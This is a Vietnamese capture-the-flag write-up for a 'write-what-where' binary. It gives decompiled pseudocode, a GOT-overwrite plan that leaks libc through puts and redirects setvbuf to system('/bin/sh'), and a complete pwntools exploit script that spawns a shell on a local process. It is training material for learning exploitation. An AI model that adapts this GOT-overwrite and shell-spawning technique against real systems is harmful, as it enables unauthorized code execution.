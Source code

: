 # write-what-where

## REVERSE FILE

Đưa vào IDA xem pseudocode
Hàm init của chương trình:
```sh
int init()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  return setvbuf(_bss_start, 0LL, 2, 0LL);
}
```
Hàm main của chương trình: 
```sh
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  _DWORD *v3; // [rsp+0h] [rbp-30h]
  int buf; // [rsp+Ch] [rbp-24h] BYREF
  char nptr[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init();
  puts("write");
  puts("what?");
  read(0, &buf, 4uLL);
  puts("where?");
  read(0, nptr, 9uLL);
  v3 = (_DWORD *)atoi(nptr);
  *v3 = buf;
  exit(0);
}
```
Chương trình sẽ cho 2 lần nhập read với lần lượt length = 4 byte, 9 byte. 
Lần nhập đầu: Nhập giá trị cần ghi.
Lần nhập hai: Địa chỉ cho giá trị cần ghi.

Sau đó chương trình sẽ thoát.


## EXPLOIT

Exploit chương trình theo các bước sau:

* got.exit = địa chỉ main dưới hàm init (main + 33);

Chương trình sẽ lặp vô số lần, tạo điều kiện thuận lợi cho việc leak libc.

* got.setvbuf = plt.puts
* stdout = got.puts
* stdin = got.puts
* got.exit = main

Leak địa chỉ puts_address.

* got.exit = (main + 33).

Tính libc_base, system, /bin/sh rồi 

* got.setvbuf = system
* got.stdin = địa chỉ chuỗi "/bin/sh"
* got.exit = main.

Lúc này chương trình sẽ thực thi system("/bin/sh") và spawn shell.

File exploit
```sh
from pwn import * 
import struct
import time
s = process("./write-what-where")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")


#raw_input("debug")
main = 0x4011a9
#main = "4198825"
#got_exit = 0x404038
got_exit = "4210744"
got_puts = "4210712" #0x404018
plt_puts = "4198448"#0x401030
got_setvbuf = "4210728" #0x404028
got_setvbuf4 = "4210732"
duoi_init = "4198858" #0x4011ca
bss_start = "4210768" #0x404050
bss_start4 = "4210772"
stdin_ = "4210784"
stdin_4 = "4210788"
what = "4202500"


# #>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> LOCAL >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>

#>>>>>>>>>>>>>>>>>>>>>>>>>>>.. cho jmp ve duoi init trong main
s.send("\xca\x11\x40\x00")
s.sendlineafter("where?",got_exit)

time.sleep(0.5)

#>>>>>>>>>>>>>>>>>>>>>>>>>>>>.. ghi de setbuf
s.send("\x30\x10\x40\x00")
s.sendlineafter("where?",got_setvbuf)
time.sleep(0.5)

s.send("\x00\x00\x00\x00")
s.sendlineafter("where?",got_setvbuf4)

time.sleep(0.5)

#>>>>>>>>>>>>>>>>>>>>>>>>>>>>.. ghi de bss_start

s.send("\x18\x40\x40\x00")
s.sendlineafter("where?",bss_start)

time.sleep(0.5)

s.send("\x00\x00\x00\x00")
s.sendlineafter("where?",bss_start4)

time.sleep(0.5)

#>>>>>>>>>>>>>>>>>>>>>>>>>>>>.. ghi de stdin

s.send("\x18\x40\x40\x00")
s.sendlineafter("where?",stdin_)

time.sleep(0.5)

s.send("\x00\x00\x00\x00")
s.sendlineafter("where?",stdin_4)

time.sleep(0.5)

#>>>>>>>>>>>>>>>>>>>>>>>>>>>.. cho jmp ve main
s.send("\xa9\x11\x40\x00")
s.sendline(got_exit)

time.sleep(0.5)

#>>>>>>>>>>>>>>>>>>>>>>>>>>>.. LEAK puts address
# print ">> " + s.recv()
#>>>>>>>>>>>>>>>>>>>>>>>>>>>.. TEMP
s.send("\x18\x40\x40\x00")
s.sendlineafter("where?",bss_start)

time.sleep(0.5)

s.recvline()

puts_addr = u64(s.recv(6)+"\x00\x00")
print "puts_addr >> " + hex(puts_addr)

libc.address = puts_addr - libc.symbols['puts']
system = libc.symbols['system'] #0x7fxxxxxxxxxx
binsh = next(libc.search("/bin/sh"))


h_sys = (system>>32)&0xffffffff
l_sys = (system)    &0xffffffff

h_sys = hex(h_sys)[4:6] + hex(h_sys)[2:4]
l_sys = hex(l_sys)[8:10] + hex(l_sys)[6:8] + hex(l_sys)[4:6] + hex(l_sys)[2:4]

h_sys1 = binascii.unhexlify(h_sys) + '\x00\x00'
l_sys1 = binascii.unhexlify(l_sys)




# print " >>>>>>>> " + h_sys2

h_bin = (binsh>>32)&0xffffffff
l_bin = (binsh)&0xffffffff

h_bin = hex(h_bin)[4:6] + hex(h_bin)[2:4]
l_bin = hex(l_bin)[8:10] + hex(l_bin)[6:8] + hex(l_bin)[4:6] + hex(l_bin)[2:4]

h_bin1 = binascii.unhexlify(h_bin) + '\x00\x00'
l_bin1 = binascii.unhexlify(l_bin)


print "libc >> " + hex(libc.address)
print "system >> " + hex(system)
print "binsh >> " + hex(binsh)
print "h_sys >> " + h_sys
print "l_sys >> " + l_sys

print "h_bin >> " + h_bin
print "l_bin >> " + l_bin

print "h_sys1 >> " + str(h_sys1)
print "l_sys1 >> " + str(l_sys1)
print "h_bin1 >> " + str(h_bin1)
print "l_bin1 >> " + str(l_bin1)

#>>>>>>>>>>>>>>>>>>>>>>>>>>>.. cho jmp ve duoi init trong main
s.send("\xca\x11\x40\x00")
s.sendlineafter("where?",got_exit)

time.sleep(0.5)

print "1"

#>>>>>>>>>>>>>>>>>>>>>>>>>>>>.. ghi de setbuf
s.send(l_sys1)
s.sendlineafter("where?",got_setvbuf)

time.sleep(0.5)

s.send(h_sys1)
s.sendlineafter("where?",got_setvbuf4)

time.sleep(0.5)

#>>>>>>>>>>>>>>>>>>>>>>>>>>>>.. ghi de stdin

s.send(l_bin1)
s.sendlineafter("where?",stdin_)

s.send(h_bin1)
s.sendlineafter("where?",stdin_4)

print "2"
#>>>>>>>>>>>>>>>>>>>>>>>>>>>.. cho jmp ve duoi init trong main
s.send("\xa9\x11\x40\x00")
s.sendline(got_exit)

s.interactive()
```